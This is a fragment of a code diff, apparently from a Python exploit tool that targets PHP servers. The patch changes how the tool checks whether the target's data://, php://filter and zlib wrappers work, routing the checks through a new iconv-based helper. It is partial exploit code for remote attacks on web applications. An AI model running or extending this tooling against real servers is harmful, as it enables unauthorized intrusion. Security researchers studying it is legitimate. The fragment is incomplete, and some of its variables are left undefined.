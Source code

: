 ```patch
+        return self.session.post(self.url, data={"download": path}).content
 
 @entry
 @arg("url", "Target URL")
@@ -93,6 +103,13 @@
         wrappers and filters that the exploit needs.
         """
         
+        def safe_iconv(filters: str, content: str) -> Response:
+            try:
+                return self.remote.iconv(filters, content)
+            except ConnectionError:
+                failure("Target not [b]reachable[/] ?")
+
+
         def safe_download(path: str) -> bytes:
             try:
                 return self.remote.download(path)
@@ -100,15 +117,14 @@
                 failure("Target not [b]reachable[/] ?")
             
 
-        def check_token(text: str, path: str) -> bool:
-            result = safe_download(path)
+        def check_token(filters: str, content: str) -> bool:
+            result = safe_iconv(filters, content).content
             return text.encode() == result
 
         text = tf.random.string(50).encode()
         base64 = b64(text, misalign=True).decode()
-        path = f"data:text/plain;base64,{base64}"
         
-        result = safe_download(path)
+        result = safe_iconv("", text).content
         
         if text not in result:
             msg_failure("Remote.download did not return the test string")
@@ -121,18 +137,15 @@
         msg_info("The [i]data://[/] wrapper works")
 
         text = tf.random.string(50)
-        base64 = b64(text.encode(), misalign=True).decode()
-        path = f"php://filter//resource=data:text/plain;base64,{base64}"
-        if not check_token(text, path):
+        if not check_token("/", text):
             failure("The [i]php://filter/[/] wrapper does not work")
 
         msg_info("The [i]php://filter/[/] wrapper works")
 
         text = tf.random.string(50)
-        base64 = b64(compress(text.encode()), misalign=True).decode()
-        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"
+        compressed = compress(text.encode())
 
-        if not check_token(text, path):
+        if not check_token("/zlib.inflate", compressed):
             failure("The [i]zlib[/] extension is not enabled")
 
         msg_info("The [i]zlib[/] extension is enabled")
@@ -443,8 +456,6 @@
         )
 
         resource = compress(compress(pages))
```